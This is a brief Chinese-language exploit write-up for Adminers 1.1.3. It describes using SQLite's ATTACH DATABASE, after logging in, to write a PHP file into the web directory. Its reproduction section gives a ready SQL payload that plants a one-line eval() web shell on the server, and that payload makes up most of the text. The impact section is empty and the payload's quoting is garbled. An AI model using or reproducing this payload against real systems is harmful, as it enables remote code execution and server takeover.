 ```yaml
---
title: Adminers 1.1.3 （SQLite 3 写入一句话木马）
id: zhfly2803
---
```


# Adminers 1.1.3 （SQLite 3 写入一句话木马）

## 一、漏洞简介

需要登陆Adminers，并且需要知道网站的路径。

## 二、漏洞影响

## 三、复现过程

```
ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/* `ATTACH DATABASE ‘/网站/路径/shell.php’ AS t;insert INTO t.e (d) VALUES (’<?php eval($_POST[a])?>’);/*` 
```